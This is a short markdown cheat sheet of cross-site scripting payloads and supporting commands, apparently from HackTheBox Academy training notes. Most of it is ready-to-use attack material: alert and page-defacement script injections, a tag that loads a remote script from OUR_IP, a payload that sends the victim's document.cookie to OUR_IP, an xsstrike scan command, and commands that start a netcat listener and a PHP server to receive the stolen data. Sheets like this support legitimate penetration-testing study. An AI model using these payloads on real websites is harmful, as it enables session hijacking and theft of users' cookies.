 | --------------------------------------------------------------------------------------------- | --------------------------------- |
| **XSS Payloads**                                                                              |                                   |
| `<script>alert(window.origin)</script>`                                                       | Basic XSS Payload                 |
| `<plaintext>`                                                                                 | Basic XSS Payload                 |
| `<script>print()</script>`                                                                    | Basic XSS Payload                 |
| `<img src="" onerror=alert(window.origin)>`                                                   | HTML-based XSS Payload            |
| `<script>document.body.style.background = "#141d2b"</script>`                                 | Change Background Color           |
| `<script>document.body.background = "https://www.hackthebox.eu/images/logo-htb.svg"</script>` | Change Background Image           |
| `<script>document.title = 'HackTheBox Academy'</script>`                                      | Change Website Title              |
| `<script>document.getElementsByTagName('body')[0].innerHTML = 'text'</script>`                | Overwrite website's main body     |
| `<script>document.getElementById('urlform').remove();</script>`                               | Remove certain HTML element       |
| `<script src="http://OUR_IP/script.js"></script>`                                             | Load remote script                |
| `<script>new Image().src='http://OUR_IP/index.php?c='+document.cookie</script>`               | Send Cookie details to us         |
| **Commands**                                                                                  |                                   |
| `python xsstrike.py -u "http://SERVER_IP:PORT/index.php?task=test"`                           | Run `xsstrike` on a url parameter |
| `sudo nc -lvnp 80`                                                                            | Start `netcat` listener           |
| `sudo php -S 0.0.0.0:80`                                                                      | Start `PHP` server                |